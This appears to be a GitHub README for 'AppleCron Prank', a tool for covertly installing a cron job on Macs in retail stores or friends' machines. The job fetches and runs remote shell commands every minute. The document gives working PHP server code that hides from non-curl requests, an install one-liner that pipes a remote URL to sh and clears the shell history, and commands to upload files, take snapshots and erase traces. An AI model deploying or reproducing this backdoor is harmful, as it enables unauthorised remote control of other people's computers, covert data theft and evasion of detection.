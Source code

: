 #AppleCron Prank

Prank your friends ... or a whole AppleStore.
\#retailpoisoning

Works on MacOSX
May not work in some stores, according to user profiles (ie: La Fnac).

##Original idea

[Antonio Roberts / @hellocatfood](http://www.hellocatfood.com/) suggested an AppleStore prank in [this tweet](https://twitter.com/hellocatfood/status/695605824815788033)


##The idea
Going further, I found out that one can remote control machines using cron jobs, bash scripts and some php pages.

The idea is to create a cron job which will, at a certain interval, retrieve the commands to be executed .

Some examples of what can be achieved:
- Reboot
- Shutdown
- Close Safari or any other app
- Open a web page in the default browser.
- Take a snapshot.
- Upload files
- Add new cron jobs
- Update a cron job
- Remove a cron job
- Remove all cron jobs (in case you want to leave no trace)

##Overview

The first part consist in adding a cron job to a machine.
Then this job will run every x minutes and retrieve the command to be executed.
You can later update the script remotely through a web page and take control/execute scripts on the machine.
The cron job can later be removed remotely, leaving no trace.

Note : I assume that the the index.php is hosted at the root of your domain.
If not the case, change yourdomain.ext for yourdomain.ext/folder in the examples and in the code

###In details

I'm using a multipurpose php page which will serve the scripts.
This page does three things :

1- Send fake information when not accessed via curl
2- Deliver the installation script
3- Deliver other scripts stored in a script.txt file

```
<?php
header("Content-type: text/plain");

// if this page is accessed with anything else than curl, we stop here
if (stripos($_SERVER['HTTP_USER_AGENT'], "curl") === false) {
  exit("Nothing to see here");
} 

// Installation command
if (isset($_GET["i"])) {
       print '(crontab -l; echo "* * * * * curl -sL meth.fr | sh") | crontab -;echo " " | pbcopy;history -c;reset' . PHP_EOL;
}
// Prank commands
else {
    $file = fopen("script.txt", "r") or die("open http://retailpoisoning.tumblr.com/");
    echo fread($file,filesize("script.txt"));
}
?>
```

The installation script is returned when accessing the index.php page via curl, with the ?i argument.
For instance, if the index.php is at the root level of your domain :
yourdomain.ext?i

The command script is returned when accessing the page via curl without any argument :
For instance, if the index.php is at the root level of your domain :
yourdomain.ext

Any request sent from anything else than curl will be filtered out.

##How those scripts get executed on the machine
To achieve that, we use curl and pipe it to either the clipboard or bash

Typing this command ...
```
 curl -sL yourdomain.ext?i | pbcopy
 ```
... will retrieve the following installation script and copy it to the clipboard: 
```
 (crontab -l ; echo " * * * * * curl -s -L yourdomain.ext | sh") | crontab  -; echo "" | pbcopy; history -c; reset
```

Pasting this command will create a cron job executed every minute. The rest of the command deletes the content of the clipboard, clears the Terminal history and resets it.

This cron job will get other scripts (we access the page without the ?i argument) every minute and pipe it to bash for execution.

Starting from here you can do almost anything that doesn't require administrator right (when sudo is not needed), including bash commands, AppleScript commands, etc etc.

The script.txt file can be updated on the fly using the x.php page.
This means once your cron job is running you can change the script (and thus the commands run every minute) from your smartphone.

To avoid this script being indexed or accessible to others, you can set a pass key that you pass as an argument : ie: http://yourdomain.ext/x.php?xyz=abc

The x.php page is just an interface which sends updated commands to the update.php page, in charge of updating the script.txt file :

There are some predefined command but there is also a text field to enter any other command.
Note : you can also update the x.php page if you want to customize it with your own commands and pass key


##How to proceed

First, you need access to the machine to be able to add this cron job.
So head to your local retailler, pick a MacOSX machine and do this :

- Open a Terminal window
- Type this command to copy the install command to the clipboard
```
curl -sL yourdomain.ext?i | pbcopy
```
- Then CTRL+V to execute it
- Exit Terminal
- Move away then use your smartphone (or do it offsite) to launch commands through the x.php page.

Note : be carefull with the command's syntax because when cron cannot execute a script, it will be logged in /var/mail/%username% and thus will leave a trace.

###Remote control

Here is the interface where you can select predefined command or enter new ones.
This will update the script.txt file which will serve the command upon cronjob request.

![Alt text](/screenshot.png?raw=true "Schematic")


##More about cron jobs

Remove all cron jobs
```
crontab -r
```

Append a new job to the existing ones
```
(crontab -l 2>/dev/null; echo " */2 * * * * open fortune.com/2016/01/19/apple-child-labor/") | crontab -
```

Replace cron jobs with a new one
```
(crontab -l | echo " * * * * * open fortune.com/2016/01/19/apple-child-labor/") | crontab -
```

Replace a specific job (ie: the one containing "fortune")
```
(crontab -l 2>/dev/null;  echo "*/4 * * * * http://techcrunch.com/2016/01/19/apple-microsoft-samsung-and-other-tech-firms-implicated-in-child-labor-report/ | grep -v 'fortune.com' | crontab -") | crontab -
```

It may be worth having a look at AppleScripting for more fun.


##Further ideas

This can be used:
- regularly push info from your machine to a server.
- track a stolen Mac.
- prank your friends/colleagues


